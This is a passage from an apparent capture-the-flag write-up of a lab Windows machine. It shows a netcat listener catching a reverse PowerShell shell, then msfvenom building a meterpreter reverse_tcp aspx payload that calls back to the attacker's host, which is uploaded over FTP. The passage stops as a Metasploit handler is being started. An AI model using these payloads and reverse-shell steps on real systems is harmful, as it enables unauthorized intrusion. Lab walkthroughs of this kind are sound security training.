 Then `nc` gets a shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.5.
Ncat: Connection from 10.10.10.5:49166.
Windows PowerShell running as user DEVEL$ on DEVEL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>

```

There are pluses and minus to this shell. It’s a nice PowerShell environment, and it’s lightweight. However, it’s not able to run some things, for example, the exploit binary that I’ll demonstrate below.

#### meterpreter

Rather than use the existing webshell, I’ll generate an aspx page that will return a meterpreter shell when I run it. If you did want to use the existing webshell, there’s a module called `exploit/multi/script/web_delivery` that will give you a PowerShell command to run in the shell (make sure you set the right target). Check if out if you want to play with it.

I’ll continue from scratch. First I’ll build the payload:

```

root@kali# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=443 -f aspx > met_rev_443.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload    
[-] No arch selected, selecting arch: x86 from the payload                                
No encoder or badchars specified, outputting raw payload                                  
Payload size: 341 bytes                                                                   
Final size of aspx file: 2838 bytes   

```

Upload it over ftp:

```

ftp> put met_rev_443.aspx
local: met_rev_443.aspx remote: met_rev_443.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2874 bytes sent in 0.00 secs (5.3532 MB/s)

```

I’ll open Metasploit and start the `exploit/multi/handler`, which provides a listener for callbacks generated outside of Metasploit:
